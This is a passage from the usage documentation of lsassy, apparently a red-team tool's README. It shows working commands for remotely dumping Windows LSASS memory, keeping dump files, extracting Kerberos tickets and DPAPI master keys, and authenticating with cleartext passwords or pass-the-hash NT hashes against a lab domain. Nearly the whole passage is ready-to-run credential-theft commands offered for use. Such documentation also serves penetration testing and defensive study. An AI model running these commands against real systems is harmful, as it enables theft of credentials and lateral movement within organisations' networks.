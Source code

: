 ```bash
lsassy -d hackn.lab -u pixis -p P4ssw0rd dc01.hackn.lab --parse-only --dump-path "/Windows/Temp" --dump-name "lsass.dmp"
```

#### Keep dump

If you don't want the dump to be automatically deleted after lsassy run, you can use `--keep-dump`.

```
lsassy -d hackn.lab -u pixis -p P4ssw0rd dc01.hackn.lab --keep-dump
```

### Kerberos tickets harvesting

Kerberos tickets will be extracted and saved to `$HOME/.config/lsassy/tickets` in `kirbi` format. You can specify output directory using `-K [directory]` or `--kerberos-dir [directory]` parameter. If this directory doesn't exist, the tool will attempt to create it before outputing tickets.

```bash
lsassy -d hackn.lab -u pixis -p P4ssw0rd dc01.hackn.lab -K '/tmp/kerberos_tickets'
```

### DPAPI Master Keys harvesting

DPAPI Master Keys will be extracted and saved to `$HOME/.config/lsassy/masterkeys.txt` in `{GUID}:SHA1` format. You can specify masterkey file path using `-M [path]` or `--masterkeys-file [path]` parameter. If the file path doesn't exist, the tool will attempt to create it before creating the file.

```bash
lsassy -d hackn.lab -u pixis -p P4ssw0rd dc01.hackn.lab -M '/tmp/keys.txt'
```

### Authentication methods

There are three different ways to authenticate against remote targets using **lsassy**. The only requirement is that the user needs to have local administration rights on the remote targets.

#### Cleartext credentials

First and most obvious one is by using clear text credentials. It can either be a local or domain user.

```bash
## Local user
lsassy -u pixis -p P4ssw0rd server01.hackn.lab

## Domain user
lsassy -d hackn.lab -u jsnow -p WinterIsComing server01.hackn.lab
```

#### Pass-the-hash

It is also possible to authenticate using user's NT hash. You can either provide LM:NT or only NT version.

```bash
lsassy -d hackn.lab -u jsnow -H 38046f6aa4f7283f9a6b7e1575452109 server01.hackn.lab
aad3b435b51404eeaad3b435b51404ee

## Or

lsassy -d hackn.lab -u jsnow -H aad3b435b51404eeaad3b435b51404ee:38046f6aa4f7283f9a6b7e1575452109 server01.hackn.lab
```
